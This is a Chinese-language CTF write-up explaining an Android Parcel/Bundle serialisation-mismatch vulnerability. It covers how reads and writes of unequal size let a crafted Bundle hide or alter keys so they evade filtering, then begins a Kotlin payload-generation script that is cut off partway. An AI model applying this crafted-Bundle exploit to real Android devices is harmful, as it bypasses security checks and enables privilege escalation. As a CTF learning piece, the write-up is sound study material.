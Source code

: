 基本上可以确认我们需要复现的漏洞就是这个了。

要想对漏洞进行复现，首先我们要对 `Bundle` 和 `Parcel` 有一定的了解。

`Parcel` 是一系列值构成的序列，这个序列的意义完全取决于读取方式（类似于 `ProtoBuf`），没有什么复杂的结构。

`Parcel` 中所有值均为4字节对齐，定长字段最少4字节，变长字段以4个字节的长度开头，后面的内容也需要填充至4字节对齐；字符串两个字节为一个单位（也就是实际读取字节数为两倍长度加上填充）；全部数值为小端序（LE）。

`Parcel` 也可以用来序列化任何 `Parcelable` 对象，其流程可以简化为写入类名字符串然后直接将当前 `Parcel` 传给 `writeToParcel` 方法。

这类漏洞的核心就在于这些 `Parcelable` 对象在实现的时候读取和写入的大小不匹配（比如读取的是`Long`，写入的却是 `Int`），这样就会造成经过精确构造的
Bundle 后续内容的前面几个字节（本次是4个字节）在第一次读取的时候被“吃掉”。

在读取后再次序列化时，后续内容出现错位，就会导致安全漏洞（**一部分的键值对具有特殊效果，在系统中被传输的时候会进行检测，这种方式可以用来逃避检测，使得这些键值对只在第二次反序列化时出现，或者在第二次反序列化时变为不同的值**）。

而 `Bundle` 可以理解为以 `Parcel` 为基础的键值对结构，在 `Parcel` 的基础上增加了一些字段。

```
0700 0000 c.o. m.m. a.n. d... 0000 0000 0700 0000 g.e. t.f. l.a. g...
|Key Len  |Key                |Val Type |String L |String Content
```
其中比较常用的有00（字符串），0D（`ByteArray`），04（`Parcelable`）。

上图，来自前面提到的两篇分析文章

{% asset_img 2020-05-04-14-47-58.png %}
{% asset_img 2020-05-04-14-48-52.png %}

在反序列化的过程中，还有一个问题需要考虑：根据[官方文档](https://developer.android.com/reference/android/os/Bundle#getParcelable(java.lang.String))

> If the expected value is not a class provided by the Android platform, **you must call setClassLoader(java.lang.ClassLoader) with the proper ClassLoader first.** Otherwise, this method might throw an exception or return null.

也就是说如果不经过特殊设计，`Bundle` 在反序列化时只能生成 Android 系统内部的对象。

一开始我被这个带进了坑里，直到我发现我们的 `Bundle` 不是一个人在战斗：在第二个和第三个接收器中，我们的 `Bundle` 来自一个 `Intent`，而 `Intent` 在生成 `Bundle` 对象时会自动帮我们把 `ClassLoader` 设置成当前应用的 `ClassLoader` ，从而可以加载 `Message` 对象。

这道题的难度是大于原始exp的：
* 在原始漏洞中，我们只需要在第一次反序列化时隐藏一个key（严格来说这个key在此时不可以存在，否则会触发过滤）
* 而在这道题目中，这个需要隐藏的key必须存在，而且类型正确，只是值不正确而已
而在 `Bundle` 底层的 `ArrayMap` 中，对重复的key是有严格的检测的，因此不能通过覆盖的方式改变内容（重复 `put` 会直接报错），需要寻求另外的方法。

上 Payload 生成脚本：
```kotlin
val data = Parcel.obtain()
val bundleLenPos = data.dataPosition()
data.writeInt(-0x1) // 整个Bundle的大小 （除去本字段和magic）
data.writeInt(0x4C444E42) // Bundle Magic BNDL
val bundleStartPos = data.dataPosition()
data.writeInt(3) // 一共有3个键值对

data.writeString("Alaunchanywhere") // 键值对1，key部分
data.writeInt(4) // 类型：Parcelable
data.writeString("com.de1ta.broadcasttest.MainActivity\$Message")
data.writeString("BSSID")
data.writeInt(0) // burstNumber
data.writeInt(0) // measurementFrameNumber
data.writeInt(0) // successMeasurementFrameNumber
data.writeInt(0) // frameNumberPerBurstPeer
data.writeInt(0) // status
data.writeInt(0) // measurementType
data.writeInt(0) // retryAfterDuration
data.writeLong(0) // ts
data.writeInt(0) // rssi
data.writeInt(0) // rssiSpread
data.writeInt(0) // txRate，这里看起来是read int write byte，但由于4字节对齐，长度其实相等
```